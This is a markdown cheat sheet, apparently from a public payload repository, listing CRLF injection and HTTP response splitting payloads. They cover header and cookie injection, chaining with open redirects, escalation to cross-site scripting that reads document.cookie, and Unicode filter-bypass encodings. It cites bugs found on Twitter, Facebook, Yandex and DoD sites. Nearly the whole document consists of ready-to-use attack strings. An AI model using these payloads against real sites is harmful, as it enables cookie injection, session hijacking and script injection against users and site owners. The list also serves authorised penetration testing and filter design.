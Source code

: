 # CRLF Injection || HTTP Response Splitting

## Basic
```
%0dSet-Cookie:csrf_token=xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx;
/%0D%0ASet-Cookie:mycookie=myvalue (Check if the response is setting this cookie)

```

## Header-based test, site root

```
%0d%0aheader:header
```
```
%0aheader:header
```
```
%0dheader:header
```
```
%23%0dheader:header
```
```
%3f%0dheader:header
```

```
/%250aheader:header
```

```
/%25250aheader:header
```

```
/%%0a0aheader:header
```

```
/%3f%0dheader:header
```

```
/%23%0dheader:header
```

```
/%25%30aheader:header
```

```
/%25%30%61header:header
```

```
/%u000aheader:header
```

## CRLF chained with Open Redirect server misconfiguration

_Note:_ This sometimes works. (Discovered in some Yandex sites, was not exploitable from the root.)

```
//www.google.com/%2f%2e%2e%0d%0aheader:header
/www.google.com/%2e%2e%2f%0d%0aheader:header
/google.com/%2F..%0d%0aheader:header
//www.google.com/%2F%2E%2E%0D%0AHeader-Test:test2 
/www.google.com/%2E%2E%2F%0D%0AHeader-Test:test2
/google.com/%2F..%0D%0AHeader-Test:test2
/%0d%0aLocation:%20http://example.com
```

## Twitter specific CRLF by [@filedescriptor](http://blog.innerht.ml/twitter-crlf-injection/)

```
%E5%98%8A%E5%98%8Dheader:header
```

## CRLF Injection to XSS

```
%0d%0aContent-Length:35%0d%0aX-XSS-Protection:0%0d%0a%0d%0a23%0d%0a<svg%20onload=alert(document.domain)>%0d%0a0%0d%0a/%2e%2e
%0d%0aContent-Length:35%0d%0aX-XSS-Protection:0%0d%0a%0d%0a23
%3f%0d%0aLocation:%0d%0aContent-Type:text/html%0d%0aX-XSS-Protection%3a0%0d%0a%0d%0a%3Cscript%3Ealert%28document.domain%29%3C/script%3E
```

## Response splitting on 302 Redirect, before Location header (Discovered in DoD)

```
%0d%0aContent-Type:%20text%2fhtml%0d%0aHTTP%2f1.1%20200%20OK%0d%0aContent-Type:%20text%2fhtml%0d%0a%0d%0a%3Cscript%3Ealert('XSS');%3C%2fscript%3E
```

## Response splitting on 301 code, chained with Open Redirect to corrupt location header and to break 301** by [@black2fan](https://twitter.com/black2fan) (Facebook bug)

_Note:_ `xxx:1` was used for breaking open redirect destination (Location header). Great example how of to escalate CRLF to XSS on a such, it would seem, unexploitable 301 status code.

```
%2Fxxx:1%2F%0aX-XSS-Protection:0%0aContent-Type:text/html%0aContent-Length:39%0a%0a%3cscript%3ealert(document.cookie)%3c/script%3e%2F..%2F..%2F..%2F../tr
```

## Filter Bypass
   - %E5%98%8A = %0A = \u560a
   - %E5%98%8D = %0D = \u560d
   - %E5%98%BE = %3E = \u563e (>)
   - %E5%98%BC = %3C = \u563c (<)
   - Payload = %E5%98%8A%E5%98%8DSet-Cookie:%20test
   - 0x0D0x0A = %0D%0A
